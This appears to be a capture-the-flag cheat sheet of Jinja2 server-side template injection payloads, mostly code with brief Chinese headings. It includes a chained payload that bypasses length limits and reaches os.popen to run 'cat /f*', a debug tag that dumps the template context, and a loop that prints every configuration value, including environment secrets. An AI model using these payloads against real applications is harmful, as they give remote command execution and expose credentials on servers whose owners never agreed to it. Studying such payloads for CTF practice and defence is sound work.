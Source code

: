 ```yaml
---
title: "Jinja2 SSTI"
author: ["4shen0ne"]
tags: ["ssti", "ctf"]
draft: false
---
```


## 绕过长度限制 {#绕过长度限制}

```nil
{{config.update(c=config.update)}}
{{config.update(g="__globals__")}}
{{config.c(f=lipsum[config.g])}}
{{config.c(o=config.f.os)}}
{{config.c(p=config.o.popen)}}
{{config.p("cat /f*").read()}}
```


## 调试语句 {#调试语句}

如果启用了调试扩展，将会有一个 `debug` 标签可用于转储当前上下文以及可用的过滤器和
测试。

```html
<pre>
{% debug %}
</pre>
```


## 转储所有配置变量 {#转储所有配置变量}

```html
{{ config }} #In these object you can find all the configured env variables

{% for key, value in config.items() %}
<dt>{{ key|e }}</dt>
<dd>{{ value|e }}</dd>
{% endfor %}
```
